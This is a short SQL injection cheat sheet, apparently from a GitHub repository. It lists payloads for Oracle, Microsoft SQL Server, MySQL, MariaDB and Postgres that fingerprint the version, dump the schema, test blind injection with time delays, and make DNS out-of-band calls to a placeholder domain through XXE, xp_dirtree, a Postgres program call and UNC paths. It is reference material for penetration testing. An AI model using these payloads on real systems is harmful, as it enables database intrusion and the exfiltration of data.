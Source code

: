 # Sql Injection

## Database Name / Version
- Oracle - `SELECT banner FROM v$version` `SELECT version FROM v$instance`
- Microsoft / MySql / MariaDb - `SELECT @@version`
- Postgres - `SELECT version()`

## Dumping Table / Column Names
- Oracle - `SELECT * FROM all_tables` `SELECT * FROM all_tab_columns WHERE table_name = <TABLE>`
- Microsoft / Postgres / MySql / MariaDb - `SELECT * FROM information_schema.tables` `SELECT * FROM information_schema.columns WHERE table_name = <TABLE>`

## Time Delays (Blind Injection)
- Oracle - `dbms_pipe.receive_message(('a'),10)`
- Microsoft - `WAITFOR DELAY '0:0:10'`
- Postgres - `SELECT pg_sleep(10)`
- MySql / MariaDb - `SELECT sleep(10)`

## DNS Lookup (Blind Injection)
- Oracle (v11.2.0.3 - v12.1.0.2) - `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "<DOMAIN>/"> %remote;]>'),'/l') FROM dual`
- Oracle (Elevated privileges) - `SELECT UTL_INADDR.get_host_address('<DOMAIN>')`
- Microsoft - `exec master..xp_dirtree '//<DOMAIN>/a'`
- Postgres - `copy (SELECT '') to program 'nslookup <DOMAIN>'`
- MySql / MariaDb (Windows only) - `LOAD_FILE('\\\\<DOMAIN>\\a')` `SELECT ... INTO OUTFILE '\\\\<DOMAIN>\a'`


## MongoDB
** Safe from traditional attacks, from building a BSON object, instead of assembling a query from string **
